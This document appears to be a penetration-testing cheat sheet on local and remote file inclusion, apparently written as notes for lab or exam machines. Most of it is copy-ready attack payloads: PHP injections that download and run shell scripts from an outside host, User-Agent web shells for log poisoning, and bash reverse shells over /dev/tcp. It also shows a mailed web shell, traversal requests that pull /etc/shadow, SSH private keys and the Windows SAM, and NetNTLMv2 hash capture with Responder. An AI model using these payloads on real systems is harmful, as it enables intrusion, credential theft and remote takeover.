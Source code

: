 # LFI/RFI

<details>

<summary>Signs</summary>

* Files being included in Get parameter

- Able to view file extensions (eg: french.html)

</details>

<details>

<summary>Method</summary>

#### Method

1. Try to view the server file (view the blacklist)
2. Log poisoning
3. Find Interesting files to read

[https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf](https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-\(lfi\).pdf)

</details>

<details>

<summary>Advanced LFI</summary>

[https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert)

```bash
' and die(show_source('/etc/passwd')) or '
```

```php
'+and+die(system("wget+http%3a//192.168.45.5/shell.sh+-O+/tmp/shell.sh%3bchmod+777+/tmp/shell.sh%3b/tmp/shell.sh"))+or+'
```

```bash
' and die(system("curl http://192.168.45.5/shell.php|php")) or '
```

</details>

<details>

<summary>Base64-encoded LFI</summary>

```bash
/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

### Export the wp-config.php and save as base64

```
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php
```

</details>

<details>

<summary>User-Agent LFI</summary>

* Sometimes it's impt to use `"` as `'` is being used by the database to define the entire string (Putting Webshell in PHPLiteAdmin DB)

```php
User-Agent:<?php system($_GET['cmd']); ?>
```

```php
User-Agent:<?php system($_REQUEST["cmd"]); ?>
```

```php
User-Agent:<?php echo shell_exec($_GET["cmd"]);?>
```

</details>

<details>

<summary>LFI to RCE (Filter Chaining)</summary>

Use [https://github.com/Tanguy-Boisset/LFI-to-RCE-filters](https://github.com/Tanguy-Boisset/LFI-to-RCE-filters)

LFI is present in: `http://172.16.1.10/nav.php?../../../../etc/passwd`

```bash
python3 lfi-to-rce.py http://172.16.1.10/nav.php page
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>LFI To RCE (Log poisoning)</summary>

* Linux

<pre class="language-bash"><code class="lang-bash"><strong>view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&#x26;cmd=wget+http%3a//10.11.67.208%3a8023/php-reverse-shell.php
</strong></code></pre>

* WIndows

```bash
?page=../../../../../xampp/apache/logs/access.log
```

User-Agent:\<?php system($\_GET\['cmd']) ?>

RCE:

[http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami ](http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami)

</details>

<details>

<summary>LFI To RCE (Mail Method)</summary>

#### Send email to asterisk user (LFI /etc/passwd to determine user)

```bash
swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shell" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
```

#### Able to obtain RCE (webshell)

```bash
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

![](<../.gitbook/assets/image (105).png>)

</details>

<details>

<summary>Testing for RFI</summary>

```php
<?php echo shell_exec('echo abc > /tmp/test.txt');echo file_get_contents('/tmp/test.txt');?> 
```

</details>

<details>

<summary>RFI Rev shell</summary>

```bash
http://10.11.1.35/section.php?page=data:text/plain,<?php echo shell_exec('bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.68%2F443%200%3E%261');?>
```

* Have to url-encode the rev shell payload in `shell_exec()`

```php
data:text/plain,<?php passthru("bash -i >& /dev/tcp/X.X.X.X/4444 0>&1"); ?>
```

</details>

<details>

<summary>Finding interesting files to read</summary>

Use Burpsuite --> Intruder --> wordlist: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

</details>

<details>

<summary>Interesting files (Linux)</summary>

* /etc/passwd&#x20;
* /etc/shadow&#x20;
* /etc/issue&#x20;
* /etc/group&#x20;
* /etc/hostname&#x20;
* /etc/ssh/ssh\_config&#x20;
* /etc/ssh/sshd\_config&#x20;
* /root/.ssh/id\_rsa&#x20;
* /root/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/id\_rsa

```
RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access_log
Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log
FreeBSD Apache access log file location – /var/log/httpd-access.log
```

* /etc/httpd/logs/access\_log&#x20;
* /etc/httpd/logs/error\_log
* &#x20;/var/www/logs/access\_log&#x20;
* /var/www/logs/access.log&#x20;
* /usr/local/apache/logs/access\_ log&#x20;
* /usr/local/apache/logs/access. log&#x20;
* /var/log/apache/access\_log&#x20;
* /var/log/apache2/access\_log&#x20;
* /var/log/apache/access.log&#x20;
* /var/log/apache2/access.log&#x20;
* /var/log/access\_log

</details>

<details>

<summary>Interesting files (Windows)</summary>

* /windows/system32/drivers/etc/hosts&#x20;

- ./../../xampp/apache/conf/httpd.conf
- ../../../xampp/password
- ../../../../../../Program Files/FileZilla Server/FileZilla Server.xml
- /boot.ini&#x20;
- /autoexec.bat&#x20;
- c:\xampp\htdocs\\...

### SAM Files & SECURITY FILES&#x20;

```bash
Systemroot is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM


%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

* Just wget the files

```bash
wget "http://10.3.3.190/..%5C..%5C..%5CWindows/system32/config/RegBack/SAM.OLD"
```

</details>

<details>

<summary>Exfiltrating Binary Data Embedded in HTML Tags</summary>

```bash
 wget -qO- 'http://X.X.X.X/vulnpage?vulparam=..\..\..\..\..\..\..\..\..\..\..%5cWINDOWS%5cRepair%5cSAM%00en' |perl -l -0777 -ne 'print $1 if /<title.*?>\s*(.*?)\s*<\/title/si' > SAM
```

</details>

<details>

<summary>Capturing NetNTLMv2 from RFI</summary>

Using a protocol like SMB, victim will try to authenticate to our machine, and we can capture the NetNTLMv2. A NetNTLMv2 challenge / response is a string specifically formatted to include the challenge and response.&#x20;

On Attacker:

```bash
responder -I tun0
```

On Victim:

```
http://unika.htb/?page=//10.10.14.25/whatever
```

</details>

<details>

<summary>Shortening LFI Query</summary>

### Example (checking for keyword in LFI query)

LFI found:

```bash
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../../../etc/passwd
```

Filter is actually checking for the presence of `ninevehNotes.txt`

So the LFI query can be simplified to:

```bash
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../etc/passwd
```

</details>

<details>

<summary>Apache 2.4.49</summary>

```bash
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/anita/.ssh/id_ecdsa
```

</details>

<details>

<summary>Links</summary>

[https://oscp.infosecsanyam.in/web-application/lfi](https://oscp.infosecsanyam.in/web-application/lfi)

</details>

<details>

<summary>How to know if file is present but unable to be viewed currently?</summary>

`/nav.php?page=../../../../var/www/html/wordpress/wp-config.php` --> Status code 500

means that file is present but unable to be viewed --> need b64 encode

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php`

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

OTHERWISE, if file is not present --> Status code 200

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

OR if file is present and viewable --> Status Code 200

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>
